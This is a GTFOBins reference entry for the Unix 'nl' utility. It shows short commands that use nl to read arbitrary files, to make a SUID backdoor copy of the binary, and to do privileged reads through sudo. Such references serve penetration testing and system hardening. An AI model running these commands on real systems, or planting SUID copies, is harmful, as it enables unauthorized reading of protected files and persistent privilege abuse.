 # GTFOBin: nl

The read file content is corrupted by a leading space added to each line.

## File read

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

```
LFILE=file_to_read
nl -bn -w1 -s '' $LFILE
```

## SUID

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run `sh -p`, omit the `-p` argument on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

```
sudo install -m =xs $(which nl) .

LFILE=file_to_read
./nl -bn -w1 -s '' $LFILE
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
LFILE=file_to_read
sudo nl -bn -w1 -s '' $LFILE
```
